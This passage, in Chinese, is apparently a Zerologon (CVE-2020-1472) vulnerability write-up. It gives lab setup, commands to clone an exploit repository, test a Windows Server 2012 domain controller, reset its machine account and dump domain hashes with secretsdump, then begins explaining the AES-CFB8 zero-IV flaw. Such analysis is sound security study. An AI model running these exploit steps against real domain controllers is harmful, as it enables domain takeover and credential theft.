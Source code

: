 [https://wenku.baidu.com/view/21c848a29989680203d8ce2f0066f5335a8167c7.html#](https://wenku.baidu.com/view/21c848a29989680203d8ce2f0066f5335a8167c7.html#)

（2）攻击机环境搭建：

ubuntu 20.04 python 3.8.2

下载相关文件：

```
git clone [https://github.com/De4dCr0w/Vulnerability-analyze.git](https://github.com/De4dCr0w/Vulnerability-analyze.git)
```

a、安装依赖：

```
pip3 install -r requirements.txt
pip3 install impacket
```

b、测试是否存在漏洞：

```
python3 zerologon_tester.py WIN-CQTUN83PA9O  192.168.148.134
```

WIN-CQTUN83PA9O 为windows server 2012 计算机用户名，保证能ping 通WIN-CQTUN83PA9O即可。

[![](https://p403.ssl.qhimgs4.com/t01eafd7d6517f1eabc.png)](https://p403.ssl.qhimgs4.com/t01eafd7d6517f1eabc.png)

c、执行命令：

```
python3 CVE-2020-1472.py WIN-CQTUN83PA9O WIN-CQTUN83PA9O$ 192.168.148.134
```

[![](https://p403.ssl.qhimgs4.com/t01ea135af528afc960.png)](https://p403.ssl.qhimgs4.com/t01ea135af528afc960.png)

d、获取hash：

```
python3 secretsdump.py d4y3.com/WIN-CQTUN83PA9O\$@192.168.148.134 -just-dc -hashes :
```

利用前：

[![](https://p403.ssl.qhimgs4.com/t016b71bae1159c5ecc.png)](https://p403.ssl.qhimgs4.com/t016b71bae1159c5ecc.png)

利用后：

[![](https://p403.ssl.qhimgs4.com/t01945b8eb7b9e019f6.png)](https://p403.ssl.qhimgs4.com/t01945b8eb7b9e019f6.png)



## 0x03 漏洞分析

漏洞点在于进行AES加密运算过程中，使用了AES-CFB8模式并且错误的将IV设置为全零。凭证计算在 ComputeNetlogonCredential函数中实现，如下：
